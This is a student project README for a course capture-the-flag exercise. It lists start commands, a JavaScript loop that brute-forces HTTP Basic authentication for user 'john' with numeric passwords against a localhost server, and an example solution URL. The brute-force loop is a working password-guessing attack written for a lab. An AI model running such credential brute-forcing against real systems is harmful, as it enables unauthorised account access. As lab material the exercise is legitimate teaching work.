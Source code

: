 # This is the source code for comp7170 Project from 19449909 John Lui
# command to start the Project
1. npm i 
2. node server.js

ps.) Docker file for your reference

# Code for generating 1st CTF

async function makeRequest(auth) {
    var myHeaders = new Headers();
    myHeaders.append("Authorization", auth);

    var requestOptions = {
      method: 'GET',
      headers: myHeaders,
      redirect: 'follow'
    };

    var resp = await fetch("http://localhost:8080/", requestOptions);
    return resp.text();
}
for(var i=0;i<10000;i++) {
    
    var secret = btoa("john:"+i)
    var result = await makeRequest("Basic "+secret);
    if(result) { alert(i);break;} 
}

# Example successful result for Part 2

http://localhost:8080/submit?spendDesc=bus&spendAmt=10&checkSum=b53f744e2c7ddadccafef2c814ea1a5fca3204b3d684f2ec73f591125ab18735